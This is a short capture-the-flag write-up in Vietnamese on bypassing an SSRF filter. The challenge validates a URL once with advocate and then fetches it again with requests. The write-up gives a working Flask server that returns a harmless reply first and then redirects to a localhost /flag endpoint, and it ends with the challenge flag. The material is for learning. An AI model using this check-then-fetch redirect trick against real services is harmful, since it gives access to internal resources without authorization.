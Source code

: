 # Solution


Bài này là một dạng SSRF khá quen thuộc, đầu tiên dùng `advocate.get(url)` để ngăn chặn ssrf sau đó `requests.get(url)` để lấy response và hiển thị cho người dùng.

Để bypass ssrf preventation thì ta có thể tạo một web server sao cho lần đầu tiên trả về một response hợp lệ và ở lần thứ 2 thì redirect đến `/flag`.

```py
from flask import Flask, request, render_template, redirect
import requests

app = Flask(__name__)

count = 0

@app.route('/', methods=['GET', 'POST'])
def index():
    global count
    if count == 0:
        count +=1
        return "haha"
    else:
        return redirect("http://127.0.0.1:80/flag")

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000)        
```


**SEE{y0u_m34n_7h3_53rv3r_r35p0n53_c4n_ch4n63_369e7e3531c987fa4a4c9cfd4f97f2f6}**